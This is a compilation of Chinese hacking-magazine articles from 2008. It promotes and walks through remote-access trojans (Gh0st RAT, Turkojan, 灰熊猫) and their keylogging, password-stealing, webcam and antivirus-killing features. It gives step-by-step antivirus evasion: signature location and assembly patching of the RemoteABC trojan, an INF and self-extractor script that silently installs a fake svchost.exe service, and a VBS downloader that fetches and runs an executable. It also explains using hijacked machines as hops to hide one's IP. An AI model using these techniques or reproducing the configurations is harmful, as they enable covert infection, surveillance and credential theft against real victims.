### 二、服务端操作

现在在虚拟机中运行生成的服务端，由于木马程序默认的上线间隔为 2 分钟，因此连接的时间会稍微长一些。当服务端程序连接成功以后，控制端自动检测 CPU 使用率调整自己的工作线程。在连接列表中选择上线的服务端信息后，点击鼠标右键中的控制命令就可以进行操作，其中包括文件管理、屏幕监视、键盘记录、远程终端、系统管理等，如图 3。


首先我们来看看“文件管理”命令，通过它可对本地和远程系统的文件进行管理。木马的文件管理功能完全模拟了 Radmin 的该功能，其中窗口的扫描为本地磁盘目录，下面为远程磁盘目录。通过鼠标右键中的命令，可以在本地和远程进行新建、删除、重命名、排序等操作。如果用户需要进行文件传输，无论是上传还是下载，在选择相应的文件后通过鼠标直接拖动即可完成。文件传输采用了自动断点传输模式，从传输的进度表中可以看到传输进程，如图 4。由于 Gh0st RAT 的客户端与服务端都采用 IOCP 模型，同时数据传输采用 zlib 的压缩方式，因此文件的传输速度较其它木马更加的快捷。

## 2008 合订本上卷

# 牧马记

Gh0st RAT 的键盘记录功能除了可以，进行英文以及相关信息的记录以外，还可以进行中文信息内容的记录操作，如图 6。


图 4


图 5


图 6

利用右键菜单中的命令，可以将记录下来的信息保存出来。而“远程终端”命令实际上就是一个简单 Shell，在这个窗口中用户可以进行终端命令的操作，这样可以更好的对远程系统进行管理操作，如图 7。


图 7

为了更好的进行远程程序的管理，Gh0st RAT 采用了进程和窗口两种管理方式。这两个管理功能看似相重合，但实际上有的功能确是无法取代的。通过系统管理中的“进程管理”标签，可以及时地查看远程计算机中的进程，如果发现有杀毒软件或者防火墙，就可以通过“结束”命令来关闭指定的进程，从而达到保护木马服务端的目的。另外通过“窗口管理”标签，可以对窗口进行有效的管理。

很多木马都拥有集群控制命令，Gh0st RAT 木马当然也不能例外，通过它也可以同时控制多台远程系统。不过 Gh0st RAT 木马的集群控制命令却有所不同，因为它的操作都是在主界面的列表中进行，除了常见的网页打开、文件下载功能以外，还可以选择所需要的主机后通过右键命令就可以操作。通过点击列表中的项目名称，就可以起到功能筛选的作用，比如点击“摄像头”后就可以将有着摄像头的和没有摄像头的主机进行区分。

另外 Gh0st RAT 木马的心跳包机制可以防止意外掉线，以 svchost 系统服务启动，同时拥有远程守护线程进行防护，这样在进程被结束以后可以快速恢复，这样在清除的时候就显得非常困难。

### 三、总结

经过简单的测试后我们发现，Gh0st RAT 木马作为一款全新的国产木马，无论是操作还是功能性上，都已经表现得非常不错了。以后的版本如果能在现有的基础上，再对拥有的控制功能进一步的加强，我想 Gh0st RAT 木马以后会越来越好的。如果大家觉得这款木马程序还不错的话，那么就赶紧下载一个来玩玩吧。

(本文所涉及到的 Gh0st RAT 已收录到光盘中)

## 上兴过瑞星主动之旅

tsofox

寒假总算到来了，趁时间充足给大家介绍上兴（我使用的是上兴 2007 sp3 破解版）过瑞星主动防御的一些方法，传统的特征码免杀和内存免杀在以前的杂志介绍过，就不多说了。瑞星的主动防御主要有系统加固、应用程序访问控制、应用程序保护、程序启动控制、恶意行为检测和隐藏进程检测。导致我们免杀后的上兴无法过主动防御的原因，主要在系统加固和恶意行为检测两个模块，默认情况下这两个模块的防御级别都在中。系统加固只有设为高时，才会监控注册表，中时不会给我们的木马构成威胁。这里我就只讲怎样过恶意行为检测。

恶意行为检测说到底还是特征码检测，只是检测的方式有点不同，瑞星 2008 恶意行为检测我知道的有两个方面，一个会检测木马执行后生成文件的特征，另一个则会同时检测木马原文件和生成文件的特征。我们先讲下如何突破恶意行为的第一个方面的检测，这个可以通过更改文件特征码来躲过。

首先，我们要开启瑞星的主动防御，后将做了表面和内存免杀的上兴服务端载入 mycll，选择带后缀，分块数量设为 10（图1）。点生成后，打开 OD，依次将生成的文件拖入 OD，再按那个 ×（图 2），关闭进程，若瑞星报毒，则按提示删除。后点二次处理，继续定位，直到精确定位到特征码。

我再介绍一个快速定位的方法，大家可以先将生成文件中的中间一个先拖入 OD，然后关闭进程，看瑞星是否报毒。若有，则它后面的文件一般都带特征（前面的文件可能有特征，要检测），我们直接将后面的文件删除即可，这样可以节省一些时间。若没有报，则一般前面的文件没带特征，就只检测它后面的文件即可。二次处理时，可先检测最后一个的文件，若瑞星没报毒，则说明不存在其它特征，其它文件就不用检测了（这里文件的排列顺序按文件名数字大小排列）。

最后我们定到的特征码为：

| 特征码 | 物理地址 / 物理长度 |
| ---- | ---- |
| [特征] | 0005FDAF_00000001 |

使用 w32asm 载入原服务端，跳转到对应的 hex 编辑，按 ctrl+g 输入 0005FDAF 跳转到该处。我们可以行到“正在查找错误信息”这段中文，把它替换成别的即可，我这里直接使用 00 填充掉。现在就过了恶意行为检测的一个方面的检测。

再谈一下另一个方面的检测，由于要定这个方面的特征码我不会，所以只能采取另外的方法。前面已经说过这个方面的检测会同时检测木马原文件和生成文件的特征，只有木马原文件和生成文件都带相同特征，瑞星才报毒，也就是说我们只要让其中的一个不带特征，瑞星也就不会查杀了。可以将木马原文件换成一个自解压程序，让它直接把我们的木马程序释放安装目录。由于自解压程序已将木马压缩了，自然也就不可能存在特征。服务端被解压到安装目录运行时，程序会错误地认为服务已经成功添加了，所以得另外给它加个服务。这里我就使用 inf 文件来实现。

```
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall.Services]
AddService=Windows_rejoice1,,My_AddService
Name
[My_AddService_Name]
DisplayName=Windows_rejoice2
Description= 上兴远程控制服务端
ServiceType=0x10
StartType=2
ErrorControl=0
ServiceBinary=%ProgramFiles%\Common Files\Microsoft Shared\MSINFO\svchost.exe
```

Windows_rejoice1 为服务名称，Windows_rejoice2 为显示名称，“上兴远程控制服务端” 为描述，%ProgramFiles%\Common Files\Microsoft Shared\MSINFO\svchost.exe 为木马安装路径，也就是我们在配置服务端时的那个安装路径（图 3）。将上述代码使用记事本保存为 1.inf，将 1.inf 和服务端程序 svchost.exe（要把服务端的文件名改成配置服务端时输入的安装名）放到同一目录选定，点击右键添加到“ice.rar”（ice 为这里文件所在的目录），然后双击打开生成的这个 rar 文件，点击工具栏上的自解压图标。在弹出的对话框中选择注释，输入如下代码（下面的注释包含自解压脚本命令）：

```
Path=%programFiles%\Common Files\Microsoft Shared\MSINFO\
SavePath
Setup=svchost.exe
setup=rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %programFiles%\Common Files\Microsoft Shared\MSINFO\1.inf
Silent=1
Overwrite=2
```

Path= 为释放路径，这个路径要和配置服务端时的安装路径相同。Setup= 后接的是解压后运行的程序，可以多个。Silent 设置解压时不显示开始对话框，参数为 1 时完全隐藏。Overwrite 设置覆盖模式，参数为 2 时，覆盖所有文件。rundll32.exe setupapi, InstallHinfSection DefaultInstall 128 %programFiles%\Common Files\Microsoft Shared\MSINFO\1.inf 为执行 inf 安装的命令。

点击确定返回，在同一个目录下就会生成一个与 rar 同名的自解压文件 ice.exe。运行下 ice.exe，已经成功地过了瑞星主动（图 4）。

瑞星主动防御比较强的部分还是在系统加固方面，将防御等级调到高的话，就会监控注册表、服务和“开始”那里的“启动”等可以添加开机启动的地方，而木马若不添加开机启动的话也就变成一次性了，一般的木马也就很难突破了，如果大家有突破的方法记得拿来交流哦。

（本文所涉及到的上兴 2007 sp3 破解版、MYCCL、OD、W32asm 和 1.inf 已收录到光盘中）


## 国外也有好木马——Turkojan

国内的木马我们已经介绍好多了，今天我们就来介绍一下国外的木马，看看与国内的木马在功能上都有什么不同。我在网上找了我，结果发现了一款来自土耳其的木马Turkojan。经过我的测试使用，感觉Turkojan非常不错的。

### 一、配置服务端程序

Turkojan和其它木马程序不相同，需要首先对其进行安装才可以。安装完成后运行桌面上的木马图标，首先从最左上方的语言栏中选择“english”，接着点击旁边的“editor”按钮，在弹出的窗口中进行服务端程序的设置。选择窗口中“Running mode”下的“stealth mode”，这样可以更好的进行设置操作。接着在“DNS”和“Port”中设置反弹连接的IP地址和端口，再勾选上“Copy server to pc”和“Autostart server”，设置木马释放文件的名称和随机启动的名称（图1）。为了更好的进行伪装，可以设置服务端的图标以及运行后弹出的错误窗口。最后点击“save”按钮就可以成功创建相应的服务端程序了。

### 二、服务端程序控制

回到Turkojan的主界面，在“Port”后面输入服务端连接的端口，接着点击“start”按钮进行端口监听。现在运行刚才生成的服务端程序，很快服务端程序就成功连接客户端了，在连接列表中可以看到上线的服务端程序。选择它以后再进行双击操作，就可以对其进行控制操作了（图2），所有的控制命令就集中在窗口左侧，下面我就对其中一些常见的控制命令进行详细的介绍。


首先我们来看看passwords这项，从名称中可以看出该命令用于控制远程系统中的密码信息，其中包括即时通讯工具、FTP客户端、各种浏览器、电子邮件等。由于Turkojan木马是一款国外的木马程序，因此所围绕的程序都是国外常见的，比如MSN、ICQ、Yahoo、Opera、IE浏览器、Firefox等。用户只需要点击需要查看的类型，就会在窗口中显示出该类程序的密码信息，然后通过相关的控制命令进行保存操作。

现在点击工具栏中的ac-cessories命令，该命令包括了三项常见的控制命令，分别是桌面控制、视频监控和音频监控。

来看看桌面控制，点击其中的remote desktop命令，会弹出一个远程桌面的控制窗口。单击工具栏中的第四个按钮，通过它可以调整捕捉屏幕的色彩（图3）。接着点击第一个按钮，木马就开始进行远程屏幕的捕捉操作。经过测试后发现，Turkojan木马的捕捉速度还是非常的。如果用户想要进一步通过鼠标键盘进行控制，那么点击工具栏中的第二和第三个按钮后，就可以像在自己的系统中那样进行控制操作。


点击“Webcam Streaming”命令，可以通过远程计算机中的摄像头进行图形捕捉。首先点击“get list”按钮命令查看远程系统中是否安装有视频设备，如果有的话就可以在下拉列表中选择捕捉的设备，接着点击开始按钮进行图像捕捉（图4）。通过窗口中的其它命令可以将捕捉到的信息进行保存，也可以通过调整来获取捕捉的频率和速度。另外“Audio Streaming”命令还可以对远程系统中的音频进行捕捉，并且可以针对不同的音频设备进行捕获。


# 牧马记

“explorer settings”命令就是针对浏览器的，通过它可以获得浏览器的历史记录等信息，另外还可以设置浏览器的首页，以及让远程浏览器打开某个设定的网页地址。而“application settings”则是用于进行远程窗口管理的，用户可以对这些窗口进行最大化、最小化、隐藏、关闭等操作，另外还可以对指定窗口的标题栏进行更改（图5）。而“applications”命令则是对远程计算机系统当前的进程进行管理，如果发现不想要的进程可以通过“terminate application”按钮结束。点击“registry editor”命令后在弹出的窗口中可以对远程计算机中的注册表进行管理，首先选择需要管理的注册表内容，然后通过右键命令即可进行新建、修改等系列修改。除此以外，settings manager里面还包括其它的控制命令，大家可以自己进行测试操作。


Manage keyboard命令主要用于对远程系统的键盘进行管理操作，其中的“keyboard settings”命令可以对键盘中常用的组合键进行锁定，从而使得肉鸡不能进行这些项目的操作，而其它的两个命令就是木马里面常见的键盘记录功能，通过它就可以获得远程用户的键盘记录情况，并且可以根据在线和离线进行分别记录操作。点击窗口中的“active”按钮，可以激活记录功能从而记录下用户的键盘操作信息，“Save”和“Clear”命令可以对记录的内容进行保存和清除（图6）。另外在offline keylogger中点击“Get logs”，可以获取到离线状态下的键盘记录信息。不过由于Turkojan是一款国外的木马程序，因此不能对中文这样的双字节信息进行截获。


对为一款木马程序来说，远程的文件管理功能不可或缺，在Manage files中就包括了所需要的命令。点击其中的“File Manager”，在弹出的窗口中即可进行管理。Turkojan木马的文件管理功能是我所见到的木马程序中最强大的一款。首先单击工具栏中的第一个按钮，就可以获取远程系统的磁盘信息。当然在窗口的右侧程序还列出了常见的目录，用户只需要点击相应的按钮，就可以快速的进入到相应的目录中。然后通过工具栏中的命令对文件进行管理，其中包括执行上传、下载、删除、运行、压缩等命令（图7）。点击“Find Files”按钮，用户可以指定在远程系统中搜索需要的文件并进行下载。设置需要进行搜索的目录以及文件名，点击“Find Files”按钮就可以按照用户的需求进行搜索。搜索完成后点击相应的文件，点击“Download it”按钮就可以进行下载操作（图8）。


commands中的“remote shell”可以调用远程系统的命令提示符，从而在远程系统中执行很多终端命令，并且整个过程都不需要进行端口侦听。木马中的block sites命令非常有意思，可以对设置的网络端口进行阻止操作。点击add按钮后，在弹出的菜单设置需要进行阻止的端口号就可以进行阻止操作了。另外通过“get list”命令可以获取系统中已经阻止的端口信息，这样可以避免用户的重复操作。在fun manager中，包括“fun menu”和“extra fun”两个命令，这些命令都是一些常见的恶作剧，比如隐藏桌面、任务栏、开始菜单，或者打开关闭显示器、光驱等，通过这些功能我们可以为所欲为（图9）。


### 三、小结

到此为止，木马Turkojan的主要功能就介绍得差不多了。通过介绍我们可以看到，国外的木马不仅控制能力上一点不弱，而且还有很多无聊的恶作剧功能，因此在远程控制的时候搞搞恶作剧也是不错的选择。怎么样，如果你现在还在玩灰鸽子的话，那么就赶快试试这款来自土耳其的木马吧。
（本文所涉及到的Turkojan4.0已收录到光盘中）

## 菜鸟免杀之特征码定位

拈花 [z.w.j]

——— multiCCL

目前的杀毒软件主要是以特征码查杀为主，依靠特征码对木马进行查杀。它的查杀程序一般为：加载病毒文件 -- 查找特征码 -- 查杀处理。但是什么才是特征码呢？其实，特征码可以说是木马本身的一个代码片段，也就是木马存放自身的一段代码或者是ASCII码，被杀毒软件通过病毒分析后获取的。杀毒软件的分析人员把包含特征码的木马的偏移地址、内存偏移地址和相关信息写入病毒库，当杀毒的时候会自动对文件特征码和内存特征码进行扫描，发现和病毒库中定义好的特征码相同时即定义为木马，然后进行查杀操作。如果能在自己的软件中找出特征码的所在，并进行适当的变形，便能在一定程度上提高代码的安全性了。

我们定位特征码最常用的工具是MyCCL，这是一款图形界面工具，可以定位复合特征码。不过这次我要给大家介绍的则是另一款工具multiCCL，由于它是一款无GUI图形界面的定位器，因此鲜为人知，但是其定位结果却是远远的超过MyCCL（图1）。


打开multiCCL后，你会发现里面有四个EXE文件、一个DLL文件、一个TXT文件和一个HTML文件，而我们要用到的便是那四个EXE文件了，我先来讲一下它们各自的功能：

- 1. multiCCL_f.exe        文件特征码专用版
- 2. multiCCL_m.exe        内存特征码专用版
- 3. multiCCL_inj.exe      注入代码块内存定位专用版
- 4. memtest.exe           用作内存定位时加载dll或运行exe或向目标进程注入的辅助程序.(为了防止主程序被杀毒软件Kill，用了远程线程注入).

我定位的是文件的特征码，所以就使用multiCCL_f.exe了。目标文件就选择使用WebDAVScan.exe吧。

首先打开文件特征码定位器multiCCL_f.exe，按照命令行的提示，我们按任意键会弹出一个新的对话框（图2），在这里选择你要定位文件的位置。

选择好定位的文件后，multiCCL会自动回到命令行，此时它提示我们要选择一个输出目录。它提供了两种方法，一种是选择一个你已经建好的目录，但是这个目录必须是空的才行；第二种方法就是在你要定位的文件的同一路径下新建一个output文件夹，我选择了第二种方法。然后再按任意键继续，此时会弹出新的对话框，要我们选择路径。因为我们刚才已经在那

个需要定位的文件下面新建过一个output文件夹了，所以此时不需要选择目录，直接点击取消就可以了（图3）。此时，它会再一次提醒你，是否把目录选择错误了，如果我们刚才不小心弄错的话，按X键就可以退出了；如果一切正常的话，按其它字母键继续我们的操作。

又出现了一个新的对话框，这次我们不用其它的操作，还是根据它的提示按任意字母键继续。此时，便会出现一个新的提示，问你要不要修改保护区域、定位精度（图4）。

因为我之前已经修改过了，所以不再修改。如果大家需要的话，可以在命令行里按Y键，它会给你弹出一个说明文档（图5），我们只要根据它的提示，修改文档最后的那个dwX=13p这一项中的数字即可。修改完以后，关闭文档，点击保存，然后回到定位器中按任意字母键继续我们的操作。


图2


图3


图4

# 牧马记

2008 合订本上卷


命令行发生了变化（图6），这便开始文件定位了。在这里multiCCL有两种方法可供你选择，分别是手动和自动。对于我等菜鸟来说，当然是选择自动了，所以下边我就以自动定位来讲解一下。


首先打开你所使用的杀毒软件，我以NOD32为例。在扫描的范围内选择我们自己建立的output文件夹，但是本地的其它磁盘、文件一个也不选择（图7）。然后对操作选项进行一下设置，我们需要的结果是查到木马文件时便立即进行删除（图8）。


对杀毒软件设置好以后，便要对multiCCL进行一下简单的设置了，看到没有？桌面上是不是有个小按钮（图9）？我们先选择Option选项，在弹出的对话框内进行具体的设置。首先将红色的鼠标箭头拖到杀毒软件的“扫描并清除”按钮上，然后将下面的CMD按钮拖到multiCCL的命令行里。将旁边的滚动条内的时间设置一下，这是每一次进行杀毒并且寻找特征码时用的时间，这个和电脑本身的速度还有你定位的文件的大小有关，大家在以后的练习中会慢慢掌握的，我选择10秒。
设置完成后，点一下Test按钮，看一下multiCCL能不能正常运行。如果你的杀毒软件可以正常的查出木马并且将木马杀


掉的话，那就说明你设置成功了。点击Test下面的Apply应用即可。但这时要说明一点，你选择了自动定位的应用之后，你的鼠标和键盘便不能再动了，否则multiCCL便会因为受到其它动作的干扰而不能继续进行定位了。
现在我们便可以喝着茶来看看multiCCL自己定位文件的特征码了，当看到定位成功的提示时，便说明你已经将文件特征码成功定位出来了（图10）。
在命令行内连续两次按任意键便可以查看定位的结果了，其中Codz1=H_00002DFF_00002DFF_00000021_00002A44便是WebDAVScan.exe的特征码了（图11）。


对杀毒软件设置好以后，便要对multiCCL进行一下简单的设置了，看到没有？桌面上是不是有个小按钮（图9）？我们先选择Option选项，在弹出的对话框内进行具体的设置。首先将红色的鼠标箭头拖到杀毒软件的“扫描并清除”按钮上，然后将下面的CMD按钮拖到multiCCL的命令行里。将旁边的滚动条内的时间设置一下，这是每一次进行杀毒并且寻找特征码时用的时间，这个和电脑本身的速度还有你定位的文件的大小有关，大家在以后的练习中会慢慢掌握的，我选择10秒。
设置完成后，点一下Test按钮，看一下multiCCL能不能正常运行。如果你的杀毒软件可以正常的查出木马并且将木马杀


怎么样？通过我的讲解你应该也能掌握木马特征码定位的技巧了吧。multiCCL定位器只是众多定位器的一种，它有着精确的定位方式，但是也有不足之处，那就是使用它定位特征的时间将会很长。但是瑕不掩瑜，这以上的功能已经足够我们小菜用的了。如果大家对特征码定位还有什么不懂的地方，可以到论坛上和我一起探讨。
（本文所涉及到的multiCCL已收录到光盘中）

## 叉手叉来玩免杀
### ——免杀 RemoteABC 过瑞星卡巴

JKS_浅色约定（沈俊豪）

快中考了，好不容易才有几小时上网轻松一下，刚登录QQ就有一MM来找我，要我帮她制作RemoteABC的免杀。既然是MM开口，没理由拒绝她吧，而且也没什么特别的要求，能过瑞星和卡巴就OK，就这样免杀RemoteABC之旅开始了……

### 一、RemoteABC 的配置方法

哎，穷人买不起正版的RemoteABC，于是我到论坛里下载了一个RemoteABC 的服务端和配置信息的生成器。打开RemoteABC 生成器，填写配置信息。建议选择“专业会员”，因为没有功能限制，用户写够5位数（论坛的帖子曾说服务端去掉专线上线的，所以不用怕^_^），密码随便写。其余的配置跟灰鸽子差不多，就不多说了（图1）。填写好后，点击“生成服务端配置信息”，就会生成一个配置信息的文件，保存为yueding.exe。


使用 Restorator 打开服务端，找到“CONROM2”目录下的资源“TFROM2”，然后把 yueding.exe 文件导入保存（图 2），经测试能够正常上线。


### 二、表面、内存免杀

首先制作瑞星的免杀，使用 mycc1 对 RemoteABC 服务端定位表面的特征码如下：

```
特征:0006AACC:00000002
特征:0006AC08:00000002
特征:0006ADCE:00000002
特征:0007A940:00000002
```

打开 OC 偏移量转换器，把 0006 AACC 转换成内存地址 0046B6CC，使用 OD 载入程序，按 Ctrl+G 跳到 0046B6CC，得到一段代码 0046B6CC . /74 0F je short 0046B6DD，从 046B6CC 这个地址的代码看到它等于的时候会转移到 0046B6DD 这个地址，在 0046B6DD 地址的附近有两个比较接近的指令，代码如下：

```
0046B6D5    8B45 F8         mov     eax, dword ptr [ebp-8]
0046B6D8    8945 E8         mov     dword ptr [ebp-18], eax
0046B6DB    8B45 EC         mov     eax, dword ptr [ebp-14]
0046B6DE    8945 E0         mov     dword ptr [ebp-20], eax
```

顿时，我想到如果把 0046B6DF 和 0046B6E3 地址的代码加在一起能不能通过呢？把 mov eax, dword ptr [ebp-8] 和 mov eax, dword ptr [ebp-4] 合并成 mov eax, dword ptr [ebp-12]，修改后的代码如下：

```
0046B6D4    90              nop
0046B6D5    90              nop
0046B6D6    90              nop
0046B6D7    90              nop
0046B6D8    8B45 F4         mov     eax, dword ptr [ebp-C]
0046B6DB    8B45 EC         mov     eax, dword ptr [ebp-14]
0046B6DE    8945 E0         mov     dword ptr [ebp-20], eax
```

把 0046B6DF 地址 nop 掉，然后把 0046B6DD 地址的代码 push 20 写到 0046B6E0 地址上。回到特征码 0046B6CC 地址，把 je 0046B6DD 修改成 je 0046B6E0，保存为 1.exe。使用 OC 转换第二处特征码得出 0046B808，使用 OD 载入 1.exe 跳到 0046B808，得到代码 je short 0046B818，而周围的代码如下：

```
0046B808    74 0E           je      short 0046B818
0046B80A    AC              lods    byte ptr [esi]
0046B80B    84C0            test    al, al
0046B80D    75 04           jnz     short 0046B813
0046B80F    8B45 08         mov     eax, dword ptr [ebp+8]
0046B812    C3              retn
0046B813    3C 3A           cmp     al, 3A
0046B815    74 04           je      short 0046B81B
0046B817    C3              retn
0046B818    8B45 08         mov     eax, dword ptr [ebp+8]
0046B81B    C3              retn
```

我们把 0046B808 和 0046B80A 地址 nop 掉，然后在 0046B809 重新写上 je short 0046B818，修改后代码如下：

```
0046B808    EB 0E           jmp     short 0046B818
0046B80A    90              nop
0046B80B    84C0            test    al, al
0046B80D    75 04           jnz     short 0046B813
0046B80F    8B45 08         mov     eax, dword ptr [ebp+8]
0046B812    C3              retn
0046B813    3C 3A           cmp     al, 3A
0046B815    74 04           je      short 0046B81B
0046B817    C3              retn
0046B818    8B45 08         mov     eax, dword ptr [ebp+8]
0046B81B    C3              retn
```

将其保存为 2.exe。使用 OD 载入 2.exe，跳到使用 OC 转换出来的第三处特征码 0046B9CE，得到代码 je short 0046B9DD，周围代码如下：

```
0046B9C6    E8 3949FFFF     call    00460304
0046B9CB    85C0            test    eax, eax
0046B9CD    74 0E           je      short 0046B9DD
0046B9CF    8BC8            mov     ecx, eax
```


# 散马记

## 2008合订本上卷

```
0046BD0D   >\E8 3245FFFF   call    00460304
0046BDD2   . 85C0          test    eax, eax
0046BDD4   . 0F84 03FCFFFF  je      0046B9DD
0046BDDA   .^E9 F0FBFFFF   jmp     0046B9CF
```

将其保存为3.exe。呵呵，到瑞星的最后一行特征码了，使用OD载入3.exe，跳到使用OC转换出来的地址00472020，得到代码jle short 0047205C，我们把它改成jbe short 0047205C，将其保存为4.exe，表面的特征码就这样修改完毕了。现在开始修改瑞星的内存特征码，使用myccl+OD定位到的内存特征码如下：

```
[特征] 0007BAEF_00000003
[特征] 0007BA0F_00000003
```

使用C32Asm载入4.exe修改，这两处的特征码都是定位在函数输入表上，把函数移动一下，然后使用LordPE修改一下函数指针就可以了。在这里我就不详细讲了，就此略过，不会修改的朋友，可以翻阅今年第一期X档案中的免杀文章，里面有写到修改输入表的方法。接下来是如何过卡巴了，使用myccl定位的特征码是[特征] 000722C0_00000002。使用OD载入服务端，跳到特征码地址00472EC0，附近的特征码如下：

```
00472EBB   . 56            push    esi
00472EBC   . E8 FF40F9FF   call    00406FC0
00472EC1   . 85C0          test    eax, eax
00472EC3   . 74 08         je      short 00472ECD
```

这次特征码也使用跳转法，我找到了00473A2D地址的0区域，方法就参照上面的吧，不重复说了。

### 三、免杀sys文件

首先介绍一下sys导出工具的使用方法，使用CMD打开程序，帮助信息如图3所示。命令语法是GetAbcTmp.exe －或+ 服务端文件名 TMP文件名；参数说明：“-”导出TMP文件、“+”导入TMP文件，服务端文件名与本程序在同一目录。
我把sys文件导出重名为my.sys，定位出瑞星的特征码为[特征] 00001D4E_00000002。使用C32Asm载入sys文件，跳到00001D4E地址，看到特征码如图4所示，我们把附近的字符串使用大小写转换，保存sys文件。同样得到卡巴的特征码为[特征] 00001BA0_0000002。


使用C32Asm载入sys文件，特征码如图5所示。这处特征码我想了很久，结果也不会改，当我想放弃的时候，一位朋友告诉我，sys文件卡巴的特征码不用修改的，直接使用校验和就可以过了。我试了一下，使用PEditor载入sys文件，点击“校验和”，


在弹出的窗口里点击“修正”，这样就修正完毕了（图6）。把瑞星和卡巴7.0的主动开启7了，成功上线（图7、图8）


花了一个下午的时间，终于把RemoteABC的免杀制作好了，本来把RemoteABC给了MM就准备赶作业去的，可是看了一下时间已经到上晚自修了。作业做不完了，哎，等着被老师痛骂吧！
（本文所涉及到的RemoteABC、sys导出工具、OD、C32Asm、Restorator和PEditor已收录到光盘中）

### 什么是跳板

一个具有辅助作用的肉鸡，即被你控制的一台电脑主机，利用这个主机作为一个间接的工具来入侵其他的主机，你入侵目标主机时候所做的任何动作任何指令都会间接到达目标主机，这些指令和动作都会先经过跳板（你控制的那台肉鸡），然后以肉鸡的名义发送到目标主机上去；最典型的作用可以隐藏自己真实IP地址；被你入侵的主机上有时会留下IP记录，但使用了跳板后它记录的不会是你的真实IP地址，而是跳板电脑的IP地址，这样就起到了隐藏自己IP地址的目的。这样做的目的很简单，避免留下入侵痕迹，保护自己。代理服务器就可以起到跳板的功能，而在网上，我们随时可以搜索到最新的免费使用的代理服务器。

## 用 VBS 制作自解压免杀下载者

TMD~睡觉

目前越来越多的下载者都加入了更多的功能，比如感染和弱口令扫描等，虽然一时间变得貌似“无敌”，但不久就要面临被杀的命令，而且穿透主动防御也成为问题。我们来试想一下，如果使用InternetExplorer.Application组件，再使用IE下载并打开，不就解决问题了吗？但是这个组件不能直接下载保存文件，IE是把文件下载到本地缓存的，我们可以让IE组件先把文件下载到缓存，然后再从缓存找到并复制到我们需要保存的位置。

这样的 VBS 代码在网上早就有了，多数是在网马里，但是没有人用到下载者里。本人乃小鸟一个，刚开始学习编程，所以只能稍微修改一下 VBS 代码制作了这个简单的自解压文件。下载者包含三个文件：t.vbs、t.bat和y.vbs（图1），其中t.vbs是下载者主要vbs文件，使用IE下载指定链接文件到缓存中，然后读取注册表的HKLM\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Cache\paths\Directory，找到系统中缓存的路径，复制文件并重命名；t.bat用来执行；t.vbs下载文件执行程序，最后删除下载者；y.vbs用来隐藏t.bat运行窗口。文件的具体代码请大家参考光盘中收录的完整源代码。


图1


图2


图3

为了让 IE 把我们的 exe 文件下载到本地缓存，我们需要有一个网页把 exe 文件包含进去。比如在网页中加上<script src=an.exe></script>，这样当IE访问该页面的时候就会把an.exe当成js脚本保存到本地缓存了，保存的命名一般是an[1].exe。例如本次测试的http://192.168.139.1:8080/1.htm 中的 1.htm 的内容为<script src=an.exe></script>这一句就可以了。其中的an.exe就是我们的假想木马（灰色按钮破解程序），如图2。注意：an.exe 和 1.htm 是在同一目录下，如图3。

我们来测试一下 t.vbs 下载过程，先把t.vbs 拷贝到 C 盘，然后在 C 盘 CMD 下执行命令 CScript t.vbs http://192.168.139.1:8080/1.htm an.exe tmd.exe，如图4。如果木马文件不大的话，一会儿就会出现下载成功的提示了，如图5。


图4


图5

查看一下 C 盘，下载 an.exe 并重命名为tmd.exe，如图6。下面接着 tmd.exe，正常运行，文件下载无误。到了最后我们制作一个自解压，让它一次运行所有的步骤。选择 t.vbs、t.bat、y.vbs，右键制作自解压文件，解压前运行y.vbs。制作完成，经测试正常运行！


图6

现在有很多杀毒软件都监视自解压文件，所以建议大家在制作自解压文件的时候，释放路径那里不要填写传统的%systemroot%\temp，随便改一下就可以。我喜欢释放到 C:\Program Files\Internet Explorer\目录下，经测试只是修改这一个地方就可以躲过很多国外的杀毒软件的监控。

（本文所涉及到的 vbs 下载者已收录到光盘中）

## 送给小菜的灰熊猫远控程序

痛并快乐着

随着时间的推移，灰鸽子木马已经逐渐淡出了我们的视线，不过最近我在一论坛中又发现了一款名为灰熊猫的远控控制软件，该软件声称集合了多款主流远控软件的优点。那么这款灰熊猫远控到底怎么样呢？今天我们就通过实际的测试来感受一下它的威力。

### 一、配置木马程序

首先点击工具栏中的“配置服务端”来配置生成一个服务端程序，灰熊猫现在支持三种上线方式，分别是DNS、IP地址和网页地址方式。在“DNS/IP/网页上线方式”中输入连接所需要的地址信息，如果采用的是IP地址的上线方式，必须设置冒号和后面的端口号，如果使用网页地址这种连接方式，不需要填写http://这个网页链接符号。在“自定义 DLL 名”中可以设置木马的名称，可以看出灰熊猫的服务端是一个 DLL 文件。接下来再设置上线备注信息、上线连接密码、上线时间间隔以及“使用 UPX 压缩服务端”、“自动删除自身”、“突破 U 盘免疫感染所有硬盘和移动设备”等选项，最后点击“生成被控端”按钮，就可以成功创建一个服务端程序了（图 1）。


图1

### 二、远程控制操作

现在点击工具栏中的“选项设置”按钮，设置客户端程序使用所需要的内容。灰熊猫默认的连接端口为 9000，点击“开始监听”按钮进行监听。现在运行刚才配置的服务端程序，我们可以看到灰熊猫也可以突破主动防御上线了（图2）。灰熊猫既没有采用修改系统时间，也没有采用恢复 SSDT 来过主动防御，而是采用替换系统服务的方法过主动防御的，这样所有的杀毒软件默认配置都不会出现任何提示，并且可以突破 360 安全卫士的监控。


首先单击工具栏中的“屏幕控制”按钮，灰熊猫的屏幕控制效仿了黑洞的逐行扫描。木马会弹出一个窗口，设置远程屏幕控制颜色，这里就选择65536色，捕捉的效果是最好的。确定后进入捕捉窗口就可以马上进行屏幕捕捉了。虽然灰熊猫的捕捉速度还不能和黑洞相比，但是已经比同类的远程控制软件要快很多了（图 3）。

从上图中我们可以看到，远程用户正在玩游戏。如果我们想通过鼠标键盘进行控制的话，可以在窗口标题栏上点击鼠标右键，接着点击菜单中的 control 命令，然后就可以通过鼠标键盘进行控制，就好象在自己的本地系统中操作一样。

点击工具栏中的“管理中心”按钮，其中包括了大量的远程控制命令：文件管理、注册表、进程、超级终端等。通过点击“系统信息”项中的“获取系统信息”，可以看到远程系统的信息状况，其中就包括了杀毒软件和防火墙的信息，这对于远程控制操作有很大的帮助。接着点击“服务端”中的“刷新信息”，可以看到服务端程序的各种相关信息，并且还可以对服务端进行断开、卸载等操作。

